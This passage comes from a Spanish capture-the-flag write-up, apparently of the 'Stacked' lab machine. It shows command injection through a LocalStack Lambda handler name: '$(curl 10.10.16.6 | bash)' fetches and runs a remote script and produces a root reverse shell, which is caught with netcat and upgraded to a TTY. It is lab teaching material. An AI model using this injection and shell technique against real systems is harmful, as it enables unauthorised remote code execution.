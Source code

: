 Después, la vuelvo a invocar

```null
2023/06/16 10:25:35 CMD: UID=0    PID=1478   | docker create -i -e DOCKER_LAMBDA_USE_STDIN=1 -e LOCALSTACK_HOSTNAME=172.17.0.2 -e EDGE_PORT=4566 -e _HANDLER=test.handler -e AWS_LAMBDA_FUNCTION_TIMEOUT=3 -e AWS_LAMBDA_FUNCTION_NAME=test -e AWS_LAMBDA_FUNCTION_VERSION=$LATEST -e AWS_LAMBDA_FUNCTION_INVOKED_ARN=arn:aws:lambda:us-east-1:000000000000:function:test -e AWS_LAMBDA_COGNITO_IDENTITY={} -e NODE_TLS_REJECT_UNAUTHORIZED=0 --rm lambci/lambda:nodejs10.x test.handler 
2023/06/16 10:25:35 CMD: UID=0    PID=1477   | /bin/sh -c CONTAINER_ID="$(docker create -i   -e DOCKER_LAMBDA_USE_STDIN="$DOCKER_LAMBDA_USE_STDIN" -e LOCALSTACK_HOSTNAME="$LOCALSTACK_HOSTNAME" -e EDGE_PORT="$EDGE_PORT" -e _HANDLER="$_HANDLER" -e AWS_LAMBDA_FUNCTION_TIMEOUT="$AWS_LAMBDA_FUNCTION_TIMEOUT" -e AWS_LAMBDA_FUNCTION_NAME="$AWS_LAMBDA_FUNCTION_NAME" -e AWS_LAMBDA_FUNCTION_VERSION="$AWS_LAMBDA_FUNCTION_VERSION" -e AWS_LAMBDA_FUNCTION_INVOKED_ARN="$AWS_LAMBDA_FUNCTION_INVOKED_ARN" -e AWS_LAMBDA_COGNITO_IDENTITY="$AWS_LAMBDA_COGNITO_IDENTITY" -e NODE_TLS_REJECT_UNAUTHORIZED="$NODE_TLS_REJECT_UNAUTHORIZED"   --rm "lambci/lambda:nodejs10.x" "test.handler")";docker cp "/tmp/localstack/zipfile.43027463/." "$CONTAINER_ID:/var/task"; docker start -ai "$CONTAINER_ID"; 
2023/06/16 10:25:35 CMD: UID=0    PID=1484   | docker cp /tmp/localstack/zipfile.43027463/. 91f63f77d4c80cf07ccc625072b67d6323ef331fcc7ed74db5062daf477553b6:/var/task 
```

Al final de uno de ellos aparece ```test.handler```, lo cual puedo controlar como ```input```. Me envío una reverse shell

```null
aws lambda create-function --endpoint-url="http://s3-testing.stacked.htb/" --function-name 'test' --runtime nodejs10.x --zip-file fileb://test.zip --handler '$(curl 10.10.16.6 | bash > /tmp/testing)' --role testing
```

```null
aws lambda invoke --endpoint-url="http://s3-testing.stacked.htb/" --function-name 'test' output.txt
```

Gano acceso como ```root``` en el contenedor

```null
/tmp $ ls -l /bin/bash
-rwsr-xr-x    1 root     root        735512 Nov 16  2019 /bin/bash
```

Gano acceso en una sesión de ```netcat```

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.6] from (UNKNOWN) [10.10.11.112] 36564
bash: cannot set terminal process group (1770): Not a tty
bash: no job control in this shell
bash-5.0# script /dev/null -c sh 
script /dev/null -c sh
bash: script: command not found
bash-5.0# python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c 'import pty; pty.spawn("/bin/sh")'
/opt/code/localstack # ^[[11;24R^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
```
